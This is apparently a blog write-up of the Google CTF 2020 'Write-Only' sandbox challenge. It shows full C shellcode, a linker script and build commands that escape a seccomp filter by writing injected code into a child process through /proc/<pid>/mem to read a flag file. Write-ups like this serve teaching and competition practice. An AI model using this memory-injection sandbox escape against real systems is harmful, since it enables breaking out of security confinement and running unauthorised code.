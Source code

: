 ```yaml
---
layout: post
title:  "Writeonly - sandbox (Google CTF 2020)"
date:   2020-09-05 18:15:00 +03:00
categories: writeups
author: Joey Geralnik
tags: sandbox
---
```


This is a writeup of the challenge Write-Only from the 2020 Google CTF. Our major contribution is that all of our shellcodes are written in C instead of assembly (a useful trick in general...)

## The challenge

We were given a service that takes shellcode and runs it. The only problem is that there is a seccomp filter that is applied before running our shellcode that prevents using the `read` syscall

```c
void setup_seccomp() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_KILL);
  int ret = 0;
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(close), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(stat), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(fstat), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(lstat), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(lseek), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(mprotect), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(brk), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(writev), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(access), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(sched_yield), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(dup), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(dup2), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(clone), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(fork), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(vfork), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(execve), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(kill), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(chdir), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(fchdir), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(gettimeofday), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(getuid), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(getgid), 0);
  ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
  ret |= seccomp_load(ctx);
  if (ret) {
    exit(1);
  }
}
```

Before applying the seccomp filter the main binary `fork`s and creates a new process that runs in an infinite loop

```c
int main(int argc, char *argv[]) {
  pid_t pid = check(fork(), "fork");
  if (!pid) {
    while (1) {
      check_flag();
    }
    return 0;
  }

  printf("[DEBUG] child pid: %d\n", pid);
  void_fn sc = read_shellcode();
  setup_seccomp();
  sc();

  return 0;
}
```

The key to the solution is that the `open` and `write` syscalls are available. We can open the memory of the child process with `/proc/<PID>/mem`, and replace the running code with more shellcode. The child process is not confined by seccomp and can simply open the flag.

## Writing our shellcode in C

We need to write 2 shellcodes - the first shellcode will run in the parent process, and needs to inject shellcode into the child process that will read the flag.

Rather than writing shellcode in assembly, we decided to write it in C and get the compiler to do the hard work for us.

Here's what our code looks like:

```c
#include <fcntl.h>
#include <stddef.h>
#include <stdint.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <unistd.h>

extern char __start_inner_shellcode;
extern char __stop_inner_shellcode;

inline long my_syscall (long a, long b, long c, long d) {
    register long rax __asm__ ("rax") = a;
    register long rdi __asm__ ("rdi") = b;
    register long rsi __asm__ ("rsi") = c;
    register long rdx __asm__ ("rdx") = d;
    __asm__ __volatile__ (
        "syscall"
        : "+r" (rax)
        : "r" (rdi), "r" (rsi), "r" (rdx)
        : "cc", "rcx", "r11", "memory"
    );
    return rax;
}

#define my_open(path, flags) my_syscall(SYS_open, (long)path, flags, 0)
#define my_lseek(fd, offset, whence) my_syscall(SYS_lseek, fd, offset, whence)
#define my_write(fd, buf, size) my_syscall(SYS_write, fd, (long)buf, size)
#define my_read(fd, buf, size) my_syscall(SYS_read, fd, (long)buf, size)

int my_write_str(int fd, char* str) {
    int len = 0;
    char *end = str;
    while(*end++) len++;
    return my_write(fd, str, len);
}

void inner_shellcode(void) {
    char buffer[4096];
    int fd = my_open("/home/user/flag", O_RDONLY);
    my_read(fd, buffer, sizeof(buffer));
    my_write_str(1, "Got flag:");
    my_write_str(1, buffer);
    my_write(1, "\n", 1);
    while(1);
}

void _start(void) {
    char *addr;
    int pid;

    __asm__ __volatile__ (
        "movl -4(%%rbp), %1;"
        "movq -40(%%rbp), %0;"
        : "=r" (addr), "=r"(pid)
    );
    char* base = addr - 0x402356;
    void (*myasprintf)(char**, char*, long) = (void*)(base + 0x412F10);
    my_write_str(1, "hello\n");
    char *pid_buf;
    myasprintf(&pid_buf, "/proc/%d/mem", pid);
    my_write_str(1, pid_buf);
    my_write(1, "\n", 1);
    int fd = my_open(pid_buf, O_WRONLY);

    char* shellcode = &__start_inner_shellcode;
    char* stop_shellcode = &__stop_inner_shellcode;

    char *target_addr = base + 0x40223A;
    my_lseek(fd, (off_t)target_addr, SEEK_SET);

    // Make sure that the child process is no longer in the critical section
    my_write_str(1, "Going to sleep\n");
    for(volatile unsigned int i=0; i < (1 << 20); i++);
    my_write_str(1, "Done sleeping\n");

    my_write(fd, shellcode, stop_shellcode - shellcode);

    my_write_str(1, "wait for flag...\n");

    // Wait for child to exit sleep
    while(1);
}
```

The only assembly we need wrote is hacky wrappers around syscalls (which we could probably have automated this as well) and code to get the PID and base address of the binary off of the stack. In practice we didn't need the PID from the stack because it was always 2, but this code let us test locally outside of namespaces. Because the outer shellcode runs directly in the process of the challenge binary, we can call its functions directly like we did with asprintf (which we use to format the pid in /proc/<PID>/mem, again we could have just used 2 hardcoded).

The real magic happens in the linker. We compile the code with `-ffunction-sections` and `-fdata-sections` so that each function's code and data is placed in a seperate section in the ELF. We then use the following linker script:

```shell
SECTIONS
{
    raw_shellcode :
    {
        *(.text._start*)
        *(.rodata._start*)
        __start_inner_shellcode = .;
        *(.text.inner_shellcode*)
        *(.rodata.inner_shellcode*)
        *(.text*)
        __stop_inner_shellcode = .;
    }
}

```

This creates a section called `raw_shellcode` that starts with the `_start` function and its data, followed by the inner shellcode and all of the common functions (in particular `my_write_str`). The linker defines `__start_inner_shellcode` before the address of the inner_shellcode and `__stop_inner_shellcode` at the end. This allows us to use `&__start_inner_shellcode` in our C code to reference the beginning of our inner shellcode. Because the data is packed together with the code we don't need to worry about the code accidentally accessing global strings that are outside of our shellcode.

Finally we can compile our code with:

```shell
gcc writeonly.c -static -Os -o writeonly.elf -nostdlib -fdata-sections -ffunction-sections -Wl,-Tscript.ld
objcopy -j raw_shellcode -O binary writeonly.elf writeonly.bin
```

`script.ld` is out linker script and `writeonly.c` is our code. After compiling our code, we use objcopy to extract the `raw_shellcode` section which should can send to the server to win the challenge.

## Tiny little detail

The other minor detail we glossed over is that our shellcode must be small enough to not ruin the child process. The child is executing sleep, and when it finishes the sleep should loop back to the beginning of our shellcode. If our shellcode is too big we will overwrite the instruction after the call to sleep and the sleep will return to garbage code. Luckily our shellcode is small enough so all is well

## Gimme the flag

Sending our code to the server returns the flag: `CTF{why_read_when_you_can_write}`

